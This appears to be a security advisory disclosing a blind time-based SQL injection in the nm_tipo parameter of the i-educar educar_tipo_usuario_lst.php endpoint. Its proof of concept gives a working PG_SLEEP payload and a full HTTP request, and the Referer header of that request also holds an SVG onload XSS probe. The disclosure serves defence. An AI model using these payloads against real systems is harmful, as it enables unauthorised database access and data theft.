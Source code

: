 # SQL Injection (Blind Time-Based) Vulnerability in nm_tipo Parameter on educar_tipo_usuario_lst.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `educar_tipo_usuario_lst.php` endpoint of the _i-educar_ application, specifically in the `nm_tipo` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/educar_tipo_usuario_lst.php`  
**Parameter:** `nm_tipo`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Configurations > Permissions > User Types**.

<img width="1287" height="743" alt="image" src="https://github.com/user-attachments/assets/98b9d0b0-f178-4fec-8a54-0257b2fe2c8a" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list users and user types**.

The application fails to properly validate and sanitize user input in the `nm_tipo` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ`

**Decoded Payload:**

`' AND 8767=(SELECT 8767 FROM PG_SLEEP(10)) OR 'EgwO'='pMdZ`

This payload triggers a **10-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=1'%20AND%208767%3D(SELECT%208767%20FROM%20PG_SLEEP(10))%20OR%20'EgwO'%3D'pMdZ&descricao=1&nivel=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_tipo_usuario_lst.php?busca=S&nm_tipo=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&descricao=%22%3E%3Csvg+onload%3Dalert%2812%29%3E&nivel=-1
```